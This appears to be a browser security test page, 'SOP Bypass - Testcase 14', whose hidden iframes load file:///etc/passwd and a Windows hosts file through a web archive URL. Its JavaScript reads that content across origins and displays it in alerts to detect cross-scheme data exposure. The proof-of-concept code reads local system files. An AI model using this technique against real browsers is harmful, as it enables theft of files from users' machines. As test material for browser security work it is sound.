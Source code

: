 ```yaml
---
layout: default
title: SOP Bypass - Testcase 14
permalink: /sop/new/14
---
```


# SOP Bypass - Testcase 14

<iframe src="https://web.archive.org/web/20180831120311if_/file:///etc/passwd" name="myIframe" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>
<iframe src="https://web.archive.org/web/20180831120311if_/file:///C:/Windows/System32/drivers/etc/hosts" name="myIframe2" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>

<script>
function myfunc() {
    var myIframe = frames.myIframe;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
function myfunc2() {
    var myIframe = frames.myIframe2;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
</script>

Testcase for Cross Scheme Data Exposure

<input type="button" id="btn_test" class="test" value="Run Test Case 1 (Linux OS)" onclick="myfunc()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2 (Windows OS)" onclick="myfunc2()">

**Note:**
If page displays an alert box displaying the content of /etc/passwd file, it results in a Cross Scheme Data Exposure.
